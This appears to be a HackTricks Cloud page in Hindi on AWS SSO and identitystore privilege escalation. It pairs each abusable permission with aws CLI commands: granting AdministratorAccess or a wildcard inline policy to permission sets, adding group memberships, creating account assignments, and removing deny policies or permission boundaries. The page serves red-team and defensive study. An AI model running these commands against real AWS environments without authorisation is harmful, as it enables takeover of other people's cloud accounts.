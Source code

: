 # AWS - SSO & identitystore Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## AWS Identity Center / AWS SSO

AWS Identity Center / AWS SSO के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../aws-services/aws-iam-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
ध्यान दें कि **डिफ़ॉल्ट** रूप से, केवल **प्रबंधन खाता** से **अनुमतियों** वाले **उपयोगकर्ता** IAM पहचान केंद्र तक पहुँचने और **नियंत्रण** करने में सक्षम होंगे।\
अन्य खातों के उपयोगकर्ता केवल तभी अनुमति दे सकते हैं यदि खाता **प्रतिनिधि प्रशासक** है।\
[अधिक जानकारी के लिए दस्तावेज़ देखें।](https://docs.aws.amazon.com/singlesignon/latest/userguide/delegated-admin.html)
{% endhint %}

### ~~Reset Password~~

इस तरह के मामलों में विशेषाधिकार बढ़ाने का एक आसान तरीका यह होगा कि उपयोगकर्ताओं के पासवर्ड को रीसेट करने की अनुमति हो। दुर्भाग्यवश, केवल उपयोगकर्ता को पासवर्ड रीसेट करने के लिए एक ईमेल भेजना संभव है, इसलिए आपको उपयोगकर्ता के ईमेल तक पहुँच की आवश्यकता होगी।

### `identitystore:CreateGroupMembership`

इस अनुमति के साथ, एक उपयोगकर्ता को एक समूह के अंदर सेट करना संभव है ताकि वह समूह की सभी अनुमतियों को विरासत में ले सके।

{% code overflow="wrap" %}
```bash
aws identitystore create-group-membership --identity-store-id <tore-id> --group-id <group-id> --member-id UserId=<user-id>
```
{% endcode %}

### `sso:PutInlinePolicyToPermissionSet`, `sso:ProvisionPermissionSet`

इस अनुमति के साथ एक हमलावर एक Permission Set को अतिरिक्त अनुमतियाँ दे सकता है जो उसके नियंत्रण में उपयोगकर्ता को दी गई है

{% code overflow="wrap" %}
```bash
# Set an inline policy with admin privileges
aws sso-admin put-inline-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --inline-policy file:///tmp/policy.yaml

# Content of /tmp/policy.yaml
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Statement1",
"Effect": "Allow",
"Action": ["*"],
"Resource": ["*"]
}
]
}

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachManagedPolicyToPermissionSet`, `sso:ProvisionPermissionSet`

इस अनुमति के साथ एक हमलावर एक उपयोगकर्ता को दिए गए अनुमति सेट को अतिरिक्त अनुमतियाँ दे सकता है जो उसके नियंत्रण में है

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-managed-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --managed-policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachCustomerManagedPolicyReferenceToPermissionSet`, `sso:ProvisionPermissionSet`

इस अनुमति के साथ एक हमलावर एक Permission Set को अतिरिक्त अनुमतियाँ दे सकता है जो उसके नियंत्रण में एक उपयोगकर्ता को दी गई है।

{% hint style="warning" %}
इन अनुमतियों का दुरुपयोग करने के लिए, आपको यह जानना आवश्यक है कि **एक ग्राहक प्रबंधित नीति का नाम जो सभी खातों के अंदर है** जो प्रभावित होने वाले हैं।
{% endhint %}

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-customer-managed-policy-reference-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --customer-managed-policy-reference <customer-managed-policy-name>

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:CreateAccountAssignment`

इस अनुमति के साथ एक हमलावर अपने नियंत्रण में एक उपयोगकर्ता को एक खाते के लिए एक अनुमति सेट दे सकता है।

{% code overflow="wrap" %}
```bash
aws sso-admin create-account-assignment --instance-arn <instance-arn> --target-id <account_num> --target-type AWS_ACCOUNT --permission-set-arn <permission_set_arn> --principal-type USER --principal-id <principal_id>
```
{% endcode %}

### `sso:GetRoleCredentials`

उपयोगकर्ता को सौंपे गए एक दिए गए भूमिका नाम के लिए STS अल्पकालिक क्रेडेंशियल्स लौटाता है।

{% code overflow="wrap" %}
```
aws sso get-role-credentials --role-name <value> --account-id <value> --access-token <value>
```
{% endcode %}

हालांकि, आपको एक एक्सेस टोकन की आवश्यकता है जिसे प्राप्त करने का मुझे यकीन नहीं है (TODO).

### `sso:DetachManagedPolicyFromPermissionSet`

इस अनुमति के साथ एक हमलावर निर्दिष्ट अनुमति सेट से AWS प्रबंधित नीति के बीच संबंध को हटा सकता है। **एक प्रबंधित नीति (निषेध नीति) को हटाकर** अधिक विशेषाधिकार प्रदान करना संभव है।

{% code overflow="wrap" %}
```bash
aws sso-admin detach-managed-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN> --managed-policy-arn <ManagedPolicyARN>
```
{% endcode %}

### `sso:DetachCustomerManagedPolicyReferenceFromPermissionSet`

इस अनुमति के साथ एक हमलावर निर्दिष्ट अनुमति सेट से एक ग्राहक प्रबंधित नीति के बीच संबंध को हटा सकता है। **एक प्रबंधित नीति (निषेध नीति) को हटाकर** अधिक विशेषाधिकार प्रदान करना संभव है।

{% code overflow="wrap" %}
```bash
aws sso-admin detach-customer-managed-policy-reference-from-permission-set --instance-arn <value> --permission-set-arn <value> --customer-managed-policy-reference <value>
```
{% endcode %}

### `sso:DeleteInlinePolicyFromPermissionSet`

इस अनुमति के साथ एक हमलावर अनुमति सेट से इनलाइन नीति से अनुमतियों को हटाने की क्रिया कर सकता है। एक इनलाइन नीति (निषेध नीति) को अलग करके **अधिक विशेषाधिकार प्रदान करना संभव है**।

{% code overflow="wrap" %}
```bash
aws sso-admin delete-inline-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN>
```
{% endcode %}

### `sso:DeletePermissionBoundaryFromPermissionSet`

इस अनुमति के साथ एक हमलावर अनुमति सेट से अनुमति सीमा को हटा सकता है। अनुमति सीमा से दी गई अनुमति सेट पर प्रतिबंधों को हटाकर **अधिक अधिकार प्रदान करना संभव है**।

{% code overflow="wrap" %}
```bash
aws sso-admin   delete-permissions-boundary-from-permission-set --instance-arn <value> --permission-set-arn <value>
```
{% endcode %}

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रिपोजिटरी में PRs सबमिट करें।

</details>
{% endhint %}
